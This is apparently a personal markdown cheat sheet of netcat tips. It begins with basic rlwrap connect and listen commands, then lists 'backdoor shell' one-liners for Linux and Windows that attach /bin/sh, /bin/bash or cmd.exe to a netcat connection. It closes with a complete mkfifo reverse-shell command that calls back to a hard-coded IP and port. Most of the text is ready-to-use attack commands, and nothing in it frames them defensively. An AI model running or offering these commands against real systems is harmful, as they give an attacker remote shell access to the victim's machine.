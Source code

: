 ```yaml
---
title: Netcat Tips
updated: 2020-05-06 03:27:51Z
created: 2019-11-26 23:32:30Z
---
```


## Fundamentals:

Connect to a netcat client:
- rlwrap nc [IP Address] [port]

Connect to a netcat Listener:

- rlwrap nc -lvp [Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- rlwrap nc [Your IP Address] -e /bin/sh 
- rlwrap nc [Your IP Address] -e /bin/bash
- rlwrap nc [Your IP Address] -e /bin/zsh
- rlwrap nc [Your IP Address] -e /bin/ash


Windows: 

- rlwrap nc -lv [localport] -e cmd.exe

Linux netcat reverse shell: 

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f